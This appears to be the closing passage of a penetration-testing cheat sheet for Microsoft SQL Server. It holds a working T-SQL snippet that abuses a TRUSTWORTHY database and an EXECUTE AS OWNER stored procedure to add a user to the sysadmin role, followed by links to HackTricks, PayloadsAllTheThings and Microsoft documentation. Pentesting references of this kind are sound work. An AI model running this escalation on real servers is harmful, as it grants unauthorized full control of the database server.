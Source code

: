 ```sql
USE <trustworthy_db> CREATE PROCEDURE sp_elevate_me WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember 'USERNAME','sysadmin'
--2. Execute stored procedure to get sysadmin role 
USE <trustworthy_db> EXEC sp_elevate_me 
--3. Verify your user is a sysadmin 
SELECT is_srvrolemember('sysadmin')
```

# References

- [https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
- [https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17](https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17)
- [https://learn.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-database-principals-transact-sql?view=sql-server-ver16](https://learn.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-database-principals-transact-sql?view=sql-server-ver16)
- [https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/)
